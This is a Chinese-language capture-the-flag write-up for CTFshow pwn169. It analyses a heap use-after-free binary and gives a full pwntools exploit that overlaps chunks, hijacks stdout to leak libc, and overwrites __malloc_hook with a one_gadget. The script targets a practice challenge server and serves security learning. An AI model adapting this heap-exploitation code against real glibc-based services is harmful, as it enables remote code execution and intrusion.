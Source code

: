 ```yaml
---
title: CTFshow pwn169
tags:
    - pwn
    - IO_FILE
categories:
    - 做题笔记
cover: /img/治不开心药.png
---
```

# CTFshow pwn169(重叠|劫持stdout)
## 前言

​	堆块重叠，真的是绕不开的一个手法。只要有uaf漏洞几乎都需要重叠来配合。这一道是比较简单的一道题，自己拖拖拉拉，又捱到了22点才完成这到题。对stdout已经完全不陌生了，感觉像老朋友了。这到题也算又扩展（应该算复习）了堆块重叠的一种方法。
​	如果说uaf漏洞是在借尸还魂，那么我们重叠的手法就是**“瞒天过海”**

## ida分析
### main函数分析
![image-20250611230847917](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250611230847917.png)
1.一个menu，三个功能
2.没有show，应该是需要劫持stdout来泄露libc的

### create函数分析
![image-20250611230931371](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250611230931371.png)
1.限制了大小，大小合适才能malloc
2.96是0x60，加上chunk头，最大是0x70，这个大小还不够进入unsorted bin

### delete函数分析
![](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250611231214680.png)
1.明显的uaf漏洞

### rename函数分析
![image-20250611231354251](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250611231354251.png)
1.没有漏洞只能正常的编辑堆块内容

## 思路分析
1.在保护机制全开的情况下，没有show功能的时候，第一想到的就是劫持stdout。常见做法就是打overlap，让堆块既在fastbins又在unsorted bin中。因为unsorted bin中的堆块会被写入main_arena相关地址，借此覆盖低位就可以劫持的stdout。但是这题限制了堆块大小，我们该如何把堆块放入unsorted bin中呢？
2.利用堆块的重叠，去构造一个大小可以进入unsorted bin中的堆块。其实堆块重叠的本质是修改堆块的size，使其修改后的大小可以包含相邻的其他堆块(刚好重叠)。在这道题中我们没有溢出漏洞去修改size，所以不能直接完成这个利用。但是我们可以在堆块内，构造一个fake chunk 的chunk 头 ，然后通过fastbins 的fd 链表，覆盖低地址，把fake chunk 链入链表中。然后分配出这个堆块，因为堆块的重叠，物理地址相邻的下一个堆块的chunk 头就在我们可编辑的范围内了。然后就可以修改其size，把其放入unsorted bin中。同时，为了可以分配到stdout，我们需要提前把这个unsorted bin的堆块放入fastbins 中，通过fastbin dup 去劫持。
3.泄露出libc后呢，就是劫持malloc_hook和realloc。也是很常规的操作了。


## exp
```python 
from esy import *
context.log_level="debug"
context.terminal=["tmux","splitw","-h","-l","66%"]

libc=ELF("/home/tsq/glibc-all-in-one/libs/2.23_0ubuntu10_amd64/libc.so.6")

def add(size,idx,content):
    io.sendlineafter("choice >>","1")
    io.sendlineafter("wlecome input your size of skills: ",str(size))
    io.sendlineafter("input index: ",str(idx))
    io.sendafter("input your name:\n",content)

def free(idx):
    io.sendlineafter("choice >>","2")
    io.sendlineafter("input idx :",str(idx))

def edit(idx,content):
    io.sendlineafter("choice >>","3")
    io.sendlineafter("input idx: ",str(idx))
    io.sendafter("new content:",content)


def exploit():
    fake=p64(0)+p64(0x71)
    add(0x60,0,b'\x63'*0x10+fake) # 0
    add(0x60,1,b'\x61'*4) # 1 .....
    add(0x10,2,b'\x62'*4) # 2
    add(0x60,3,b'\x64'*4) # 3
    add(0x20,4,b'\x64'*4) # 4
    free(1)
    free(0)

    edit(0,b'\x20')
    add(0x60,0,b'a')   # 0
    add(0x60,5,b'f')  # 5
    free(1)

    edit(5,p64(0)*9+p64(0x91))
    free(1)
    edit(5,p64(0)*9+p64(0x71))
    edit(1,b'\xdd\x55')
    payload=b'\0'*0x33+p64(0xfbad1887)+p64(0)*3+b'\0'
    add(0x60,6,b'a')
    add(0x60,7,payload)

    # leak - libc
    io.recv(0x40)
    stdout=u64(io.recv(6).ljust(8,b'\x00'))+0x20
    libcbase=stdout-libc.sym['_IO_2_1_stdout_']
    malloc_hook=libcbase+libc.sym['__malloc_hook']
    realloc=libcbase+libc.sym['realloc']
    one_gadget=[0x4526a,0xf02a4]
    logvalue("stdout",hex(stdout))
    # 
    free(1)
    edit(1,p64(malloc_hook-0x23))
    payload=0xb*b"\x00"+p64(one_gadget[0]+libcbase)+p64(realloc+4)
    add(0x60,1,b'a')
    add(0x60,8,payload)
    io.sendlineafter("choice >>","1")
    io.sendlineafter("wlecome input your size of skills: ",str(0x20))
    io.sendlineafter("input index: ",str(1))

while True:
    try:
        io,elf=loadfile("pwn","pwn.challenge.ctf.show",28175)
        exploit()
        io.interactive()
    except:
        io.close()
```